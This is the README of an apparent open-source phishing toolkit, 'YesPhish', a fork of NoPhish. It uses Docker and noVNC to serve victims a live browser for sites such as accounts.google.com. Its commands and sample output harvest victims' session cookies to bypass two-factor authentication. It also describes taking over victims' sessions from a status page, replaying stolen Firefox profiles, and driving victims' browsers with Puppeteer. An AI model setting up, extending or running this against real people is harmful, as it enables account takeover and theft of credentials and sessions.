 # YesPhish

This is a fork of [NoPhish](https://github.com/powerseb/NoPhish) (by `powerseb`) with improvements and bugfixes.

## Changes in this fork

* Refactored `setup.sh` to make it more modular & easier to maintain
* Moved files that are mostly static into the Docker images instead of the setup.sh script
* Added the `-x` option to spawn firefox with remote debugging port exposed to the host at address `localhost:9XXX` to allow for the use of browser automation (for example with puppeteer)
* Added the `-l` option to allow the user to choose a language to be set as a custom preference
* Builtin puppeteer scripts to control the target browser & log cookies / navigation information
* Fixed some conditions that caused NoPhish to not load properly sometimes due to processes being spawn before the desktop environment was up
* Set the cookie collector loop to every 5 seconds, which is more realistic than 60
* Colored & cleaner output
* Other miscellaneous bugfixes

## Usage

All existing features of NoPhish [should] work the same way. The following features were added:

### Language

The `-l` option is just a helper to set the preferred languages of the browser.

It can be set to a list of values - as long as it doesn't include spaces.

Example:
```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -l es,ru
```

### Editing Preferences

This was a bit annoying in NoPhish (it required changing 4 places in the code). In YesPhish you can just edit the `templates/user.header.js` with your desired values and rerun `setup.sh`.

### RemoteDebuggingPort

(under testing)

With YesPhish it's possible to control the target browser remotely. Just toggle the `-x` flag:

```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -x true
[...]
[~] Generating configuration file
[+] Configuration file generated
[-] Starting containers
———— vnc-user1 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9001
[...]
———— vnc-muser2 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9002
[...]
```

For each user container, a port between `9001` and `9999` is mapped to the host.

This is the remote debugging port of the browser running in that container, and can be used to connect and control the browser with tools such as [Puppeteer](https://github.com/puppeteer/puppeteer).

For example, the `scripts/control.js` file is a sample that connects to your browser running in the container, and spawns a REPL where you can freely interact with the `browser` object:

```bash
$ node scripts/control.js -p 9001
> pages = await browser.pages()
[TODO]
> pages[0].goto("https://legitpage")
```

Another example is the `scripts/log.js` which can be used to log accessed pages and cookies set during the navigation:
```bash
$ node scripts/log.js -p 9001
[TODO]
```

> [!IMPORTANT]  
> Be aware that some targets, such as Google, use magic tricks to detect when your browser is being controlled by a third-party, and *block the sign-in attempt* before the victim can even enter the password, so this technique won't work for phishing these targets.
> If I knew how these tricks worked by the time I wrote this tool I would have fixed it - there are many open issues in repos related to Puppeteer about this behavior, but none of the answers seemed to work as of 05/2025.
> If you find a solution let me know :-) 

# NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Ensure that docker is installed and working.

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

Further you can also directly interact with the tool on the status page - `http(s)://%DOMAIN%:65534/status.php`. There you have the possability to disconnect the user and directly take over the session. 

In the current version of the tool for every user two containers are spawned - one for desktops and one for mobile devices. Based on the user agent the target gets redirected to suitable container. The output of the mobile container is named with a leading "m" (e.g. mphis1-ffprofile). 

## Using profile export
If you are using the complete FireFox profile export, you can just call firefox with -profile like that:

On Windows:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

On Linux:
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Everything is getting restored, including the latest site.

Please note by default you need to extract the zip archive or set the parameter `-z` to `false`. If the export format `-e simple` is chosen two json files will be generated which can be used with Cookiebro which is available for [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) and [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.
